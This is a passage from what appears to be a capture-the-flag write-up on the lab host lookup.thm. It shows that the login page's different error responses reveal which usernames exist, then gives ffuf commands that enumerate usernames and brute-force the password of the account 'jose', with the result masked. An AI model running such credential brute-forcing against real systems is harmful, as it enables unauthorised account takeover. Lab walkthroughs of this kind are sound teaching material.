 ### **port 80**

![Desktop View](/port-80.webp){: width="1200" height="450" }

Let's conduct a test using a randomly generated username: `dsgsdgs` and password: `mflspdgk`.

![Desktop View](/error-port-80.webp){: width="1200" height="450" }

Let's perform a test using a common credential pair: username: `admin` and password: `admin`.

![Desktop View](/admin-login-port-80.webp){: width="1200" height="450" }

>This indicates that a brute-forcing technique can be employed to systematically test multiple credential combinations.
{: .prompt-tip}


## foothold

### **Brute Force** 

After attempting a brute force attack on the admin account, no valid password was discovered, suggesting that the account is protected by a strong password.

Let’s proceed with brute-forcing to identify if there are additional usernames present on the system. 

```console
$ ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' 
-X POST -d 'username=FUZZ&password=test' -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -mc all -ic -fs 74 -t 100

...
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 90ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 132ms]
....

```
1. new username:`jose`

Let’s initiate a brute-force attack to test password combinations for the username `jose`.

```console
$ ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=jose&password=FUZZ' -w /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-100000.txt -mc all -ic -fs 62 -t 100
....
....
p********             [Status: 302, Size: 0, Words: 1, Lines: 1]
....
....

```
